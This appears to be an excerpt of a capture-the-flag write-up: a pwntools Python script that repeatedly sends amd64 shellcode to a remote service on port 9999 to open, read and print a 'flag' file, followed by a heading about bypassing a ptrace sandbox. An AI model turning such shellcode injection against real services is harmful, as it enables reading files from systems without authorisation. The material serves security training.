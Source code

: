 ```python
    is_find = 0
    while True:
        sc = "mov rax, 0x67616c66\n"
        sc += "push rax\n"
        sc += "mov rdi, rsp\n"
        sc += shellcraft.amd64.open('rdi', 0)
        sc += shellcraft.amd64.read('rax', "rsp", 0x50)
        sc += shellcraft.amd64.write(1, "rsp", 0x50)
         
        if is_find == 1:
            os._exit(0)
 
        try:
            r = remote(ip, 9999)
        except Exception as e:
            r.close()
            continue
 
        try:
            is_find = 0
            # 发送数据
            r.sendline(asm(sc))
            data = r.recv(40, timeout=0.5)
            if data[:4] == b'flag':
                is_find = 1
                #r.interactive()
                print(repr(data))
                print("Flag found!")
                print("Flag: " + data.decode())
                r.close()
                os._exit(0)
            else:
                print("Flag not found.")
                #print(repr(data))
                #r.interactive()
 
            r.close()
             
        except Exception as e:
            print(e)
            r.close()
 
test()
```

## 绕过 ptrace 沙箱


